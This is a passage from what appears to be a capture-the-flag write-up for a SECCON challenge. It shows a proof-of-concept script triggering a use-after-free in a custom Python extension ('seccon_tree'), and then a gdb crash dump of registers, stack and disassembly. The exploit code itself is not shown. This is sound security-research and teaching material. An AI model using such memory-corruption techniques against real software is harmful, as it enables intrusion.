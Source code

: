 ```bash
user@c19c5a5d3718:/exp$ ./python3.9x poc.py 
[+] Triggering UAF
<seccon_tree.Tree object at 0x7f022ab05f00>
Segmentation fault (core dumped)
```

And we get our segfault! Examining the crash in gdb:

```
gef➤  r poc.py 
Starting program: /exp/python3.9x poc.py
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[+] Triggering UAF
<seccon_tree.Tree object at 0x7f2166dccf00>

Program received signal SIGSEGV, Segmentation fault.
PyObject_Str (v=0x7f2166dccf00) at ../Objects/object.c:463
463	../Objects/object.c: No such file or directory.

[ Legend: Modified register | Code | Heap | Stack | String ]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x00007f2166f9e740  →  0x00007f2166f9e740  →  [loop detected]
$rbx   : 0x00000000014bd900  →  0x0000000000000000
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007ffc7f2e32f0  →  0x0000000000000001
$rbp   : 0x00000000014bf300  →  0x0000000000000000
$rsi   : 0x246             
$rdi   : 0x00007f2166dccf00  →  0x0000000000000001
$rip   : 0x00000000005f81a1  →  <PyObject_Str+113> cmp QWORD PTR [rcx+0x88], 0x0
$r8    : 0x0               
$r9    : 0x00000000014bdb80  →  0x00007f2166e588b0  →  0x00007f2166e5a1f0  →  0x00007f2166e56620  →  0x00007f2166e56670  →  0x00007f2166e566c0  →  0x00007f2166e5a2d0  →  0x00007f2166e56710
$r10   : 0x8               
$r11   : 0x00007ffc7f2e32d8  →  0x0000000000000000
$r12   : 0x00007f2166dccf00  →  0x0000000000000001
$r13   : 0x1               
$r14   : 0x00000000015199f8  →  0x00007f2166ef74a0  →  0x0000000000000004
$r15   : 0x00007f2166ef74a0  →  0x0000000000000004
$eflags: [zero CARRY PARITY adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007ffc7f2e32f0│+0x0000: 0x0000000000000001	 ← $rsp
0x00007ffc7f2e32f8│+0x0008: 0x00007f2166f9e740  →  0x00007f2166f9e740  →  [loop detected]
0x00007ffc7f2e3300│+0x0010: 0x0000000000000000
0x00007ffc7f2e3308│+0x0018: 0x00007f2166e4fea0  →  0x0000000000000001
0x00007ffc7f2e3310│+0x0020: 0x00007f2166dccf00  →  0x0000000000000001
0x00007ffc7f2e3318│+0x0028: 0x000000000065862f  →  <PyFile_WriteObject+63> mov r12, rax
0x00007ffc7f2e3320│+0x0030: 0x0000000000000001
0x00007ffc7f2e3328│+0x0038: 0x0000000000000000
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x5f818f <PyObject_Str+95> mov    rcx, QWORD PTR [r12+0x8]
     0x5f8194 <PyObject_Str+100> cmp    rcx, 0x9590a0
     0x5f819b <PyObject_Str+107> je     0x5f823a <PyObject_Str+266>
 →   0x5f81a1 <PyObject_Str+113> cmp    QWORD PTR [rcx+0x88], 0x0
     0x5f81a9 <PyObject_Str+121> je     0x4edaf3 <PyObject_Str-1091133>
     0x5f81af <PyObject_Str+127> mov    rbp, QWORD PTR [rip+0x3adca2]        # 0x9a5e58 <_PyRuntime+568>
```
